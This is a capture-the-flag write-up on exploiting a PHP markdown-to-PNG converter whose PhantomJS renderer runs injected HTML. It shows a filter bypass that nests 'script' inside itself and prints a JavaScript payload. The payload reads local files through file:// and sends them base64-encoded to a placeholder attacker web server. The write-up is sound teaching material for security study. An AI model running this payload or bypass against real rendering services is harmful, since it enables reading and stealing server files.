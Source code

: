 # Light recon:
Looking at the response headers `Server: Apache/2.4.18 (Ubuntu)`,  and the source code (which contains a `mstafa.php`) we will assume that we're dealing with PHP web application.
After doing a light fuzzing, nothing comes interesting except `flag.php` (won't go through how for the sake of keeping the writeup simple) browsing to it reveals nothing (so we must read it using LFI/RCE/SSTI ...)

# Markdown to PNG? : 
The form is rather simple, you submit something and it gets written to an image file which is sent back to us [screenshots]
Our request/response combo looks like this:
[burp]
filenames are random, the only possible attack vector is LFI (if the router takes our input (filename) and looks for it in another directory besides `pics/`) but i won't go through it for now and i'll assume that the files are processed THEN written inside `pics/` directory.

This kind of converters have been generally vulnerable to the so called "server side" XSS (mainly on dynamic pdf generators) where you can basically inject some html/js code that fetches local files, do SSRF etc...

Let's test that out:
[test]

it wasn't reflected as text this time but as html instead, we got a potential XSS
Let's see if we can run Javascript code:
[request]


Yes we can, did you noticed that "script" has been stripped out? [spoiler: there's a WAF in action ;) ]

Running Javascript code like this is cumbersome (e.g you have to escape quotes every now and then when writing complex code). So, let's see if we can include remote script:
[reques]

As mentioned, "script" has been stripped by the server, a common bypass for this is nesting one inside another like `scrscriptipt`, result in the "outer" script to be concatenated.

Aaaaand we got a request: [catched]



# Time to stop joking about XSS:
Looking at the `User-Agent` header we can see `PhantomJS/2.1.1` which is a headless browser, after googling for any known vulnerability we will come across this one: https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/
TLDR; we make the server load our remote script, which reads local files using `file://` scheme, and sends the base64 encoded file back to us.
	
innocent.js content:
```js
function reqListener () {
    var encoded = encodeURI(this.responseText);
    var b64 = btoa(this.responseText);
    var raw = this.responseText;
    document.write('<iframe src="http://<your_webserver>/exfil?data='+b64+'"></iframe>');
} 
var oReq = new XMLHttpRequest(); 
oReq.addEventListener("load", reqListener); 
oReq.open("GET", "file:///etc/hosts"); // file to read
oReq.send();
```
run your webserver to host the file and make the target server include it: [screen]
aaand we got a hit with the file being sent back to us:
[logs]
/etc/hosts file content: [screen]

Remember that `/flag.php` file? by default apache hosts files under `/var/www/html/`, let's check if it's in there
Same drill, edit the file to read and resend the XSS payload, after getting a hit on your local webserver base64 decode the exfil parameter's content:
[screen]
Flag: `thnb{3aaaaw3d_D3rd4k_aAasi_xsser}`


